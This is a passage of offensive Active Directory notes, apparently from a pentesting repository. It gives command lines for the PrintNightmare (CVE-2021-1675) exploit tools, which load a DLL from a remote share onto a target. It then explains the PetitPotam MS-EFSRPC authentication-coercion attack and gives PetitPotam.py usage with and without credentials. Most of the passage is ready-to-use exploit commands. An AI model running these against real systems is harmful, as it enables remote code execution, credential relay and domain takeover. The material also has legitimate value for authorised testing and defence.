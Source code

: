 ```
CVE-2021-1675.py <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<TARGET_HOSTNAME | TARGET_IP> '\\<IP>\<SHARE_NAME>>\<DLL>'

# Uses the current security context to authenticate to the remote system.
SharpPrintNightmare.exe '\\<IP>\<SHARE_NAME>>\<DLL>' '\\<TARGET_HOSTNAME | TARGET_IP>'

# Uses the specified credentials for authentication.
SharpPrintNightmare.exe '\\<IP>\<SHARE_NAME>>\<DLL>' '\\<TARGET_HOSTNAME | TARGET_IP>' <DOMAIN | WORKGROUP> <USERNAME> <PASSWORD>
```

### MS-EFSRPC (Encrypting File System Remote (EFSRPC) Protocol - PetitPotam

Similarly to functions exposed by the `MS-RPRN` `MSRPC` interface, a number
of functions of the `MS-EFSRPC` `MSRPC` interface can be abused to coerce hosts
to authenticate to an arbitrary (and possibly controlled) machine. The binding
to the `MS-EFSRPC` `MSRPC` interface can be done over the `EFSRPC` named pipe
(`\PIPE\efsrpc`) as well as a number of other named pipes (`LSARPC` /
`\PIPE\lsarpc`, `MS-NRPC` / `\PIPE\netlogon`, `MS-SAMR` / `\PIPE\samr`, and
`\PIPE\lsass`). The binding and calling of `MS-EFSRPC` functions can be done
with out authentication against unpatched Domain Controllers.

The coerced authentication will be done by the machine account of the targeted
machine, and thus the exploit primitives detailed in the
`MS-RPRN "printer bug"` section above apply. For more information on relaying
`NTLM` authentication, refer to the `[ActiveDirectory] NTLM capture and relay`
note.

The following functions are implemented in the
[`PetitPotam`](https://github.com/topotam/PetitPotam) exploit to coerce
authentications:
  - `EfsRpcOpenFileRaw` (patch to prevent coerced authentication available)
  - `EfsRpcEncryptFileSrv`
  - `EfsRpcDecryptFileSrv`
  - `EfsRpcQueryUsersOnFile`
  - `EfsRpcQueryRecoveryAgents`
  - `EfsRpcRemoveUsersFromFile`
  - `EfsRpcAddUsersToFile`
  - `EfsRpcFileKeyInfo`
  - `EfsRpcDuplicateEncryptionInfoFile`
  - `EfsRpcAddUsersToFileEx`
  - `EfsRpcFileKeyInfoEx`
  - `EfsRpcGetEncryptedFileMetadata`
  - `EfsRpcSetEncryptedFileMetadata`
  - `EfsRpcEncryptFileExSrv`

```bash
# Attempt with out authentication.
PetitPotam.py <LISTENING_HOST> <TARGETED_HOST>

# Authenticated attempt, using username:password, username:NTHash, or Kerberos authentication.
PetitPotam.py -d '<DOMAIN>' -u '<USERNAME>' [-p '<PASSWORD>' | -hashes '<[LMHASH]:NTHASH>'] <LISTENING_HOST> <TARGETED_HOST>
PetitPotam.py -d '<DOMAIN>' -u '<USERNAME>' -k -no-pass <LISTENING_HOST> <TARGETED_HOST>

# Specify the named pipe to use for binding. Defaults to lsarpc.
PetitPotam.py -pipe <efsr | lsarpc | samr | netlogon | lsass> -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' <LISTENING_HOST> <TARGETED_HOST>
```
